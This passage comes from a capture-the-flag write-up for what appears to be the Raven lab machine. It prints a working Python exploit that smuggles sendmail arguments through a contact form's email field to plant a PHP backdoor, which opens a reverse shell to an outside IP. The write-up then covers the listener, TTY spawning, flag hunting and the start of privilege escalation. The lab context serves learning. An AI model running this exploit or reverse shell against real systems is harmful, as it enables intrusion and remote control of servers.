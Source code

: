 target = 'http://raven.local/contact.php'
backdoor = '/rev.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'172.20.10.4\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/var/www/html/rev.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```

Remember to edit it to your IP for gettting a reverse shell.

![image](https://user-images.githubusercontent.com/69868171/120070504-de0d4a00-c058-11eb-8114-04fdf99c0d4a.png)

Let start and Ncat listener and run the exploit.

![image](https://user-images.githubusercontent.com/69868171/120070557-2298e580-c059-11eb-9ce8-cb267df2063c.png)

Now let access the backdoor we just added `rev.php` to get our shell.

`http://raven.local/rev.php`  going to our listener and we have our shell.

![image](https://user-images.githubusercontent.com/69868171/120070638-815e5f00-c059-11eb-800c-9b20c6de25f1.png)

Spawning TTY shell ` python -c 'import pty; pty.spawn ("/bin/bash")'` so i try finding the flag2 first since we have 1 and 3 already .

`find / -name flag2.txt 2>/dev/null` and boom we have it.

![image](https://user-images.githubusercontent.com/69868171/120070820-558fa900-c05a-11eb-85da-a4661ecb2edc.png)

Now let go get the last flag probably it will be in the root folder for sure so i try checking how many users we have on the target.

### Privilege Escalation

![image](https://user-images.githubusercontent.com/69868171/120070852-7d7f0c80-c05a-11eb-8ba8-6688f87eabf9.png)

Going through the home directory for each users i found nothing so i decided to run `linpeas.sh` and between i found the MYSQL credentials.

```